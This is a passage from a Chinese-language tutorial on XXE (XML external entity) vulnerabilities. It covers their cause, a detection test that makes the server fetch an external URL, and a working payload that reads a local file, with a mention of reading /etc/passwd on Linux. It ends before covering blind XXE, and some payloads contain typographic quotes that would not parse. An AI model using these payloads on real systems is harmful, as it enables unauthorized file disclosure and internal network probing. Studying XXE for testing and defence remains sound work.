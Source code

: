 大多数流行的标记语言用于引用内容，并且普通的互联网用户在浏览互联网时非常happy地点击了数千个这样的引用。

# XML注入产生的原理

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。

xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

## xxe漏洞检测

第一步检测XML是否会被成功解析：

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE ANY [  
<!ENTITY name "my name is nMask">]>    
<root>&name;</root>
```

如果页面输出了my name is nMask，说明xml文件可以被解析。

第二步检测服务器是否支持DTD引用外部实体：

```xml
<?xml version=”1.0” encoding=”UTF-8”?>  
<!DOCTYPE ANY [  
<!ENTITY % name SYSTEM "http://localhost/index.html">  
%name;  
]>
```

可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求test.xml的请求。

如果支持引用外部实体，那么很有可能是存在xxe漏洞的。

# xxe漏洞利用

xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等，这里就读取任意文件的利用方式进行测试。

## 读取任意文件

由于我是在windows上做的测试，因此让其读取c盘下的test.txt文件内容。

```xml
<?xml version=”1.0” encoding=”UTF-8”?>  
<!DOCTYPE ANY [  
<!ENTITY % name SYSTEM "file://c:\test.txt">  
%name;  
]>
```

如果是linux下，可以读取/etc/passwd等目录下敏感数据。

以上任意文件读取能够成功，除了DTD可有引用外部实体外，还取决于有输出信息，即有回显。那么如果程序没有回显的情况下，该怎么读取文件内容呢？
